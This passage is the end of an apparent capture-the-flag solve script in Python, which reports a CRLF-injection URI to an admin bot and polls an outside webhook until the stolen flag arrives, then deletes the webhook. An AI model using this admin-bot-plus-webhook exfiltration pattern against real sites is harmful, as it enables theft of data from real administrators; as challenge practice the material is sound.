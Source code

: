 ```python

    print('[+] Reporting CRLF URI to the admin..')
    report_to_admin(session, CRLFPayload)

    print('[+] Waiting for flag to arrive on webhook..')
    while True:
        flag = webhook.get_flag()
        if flag:
            break
        time.sleep(3)

    print('[~] Flag arrived: {}'.format(flag))

    print('[~] Cleaning up the webhook')
    webhook.destroy()

if __name__ == "__main__":
    main()
```























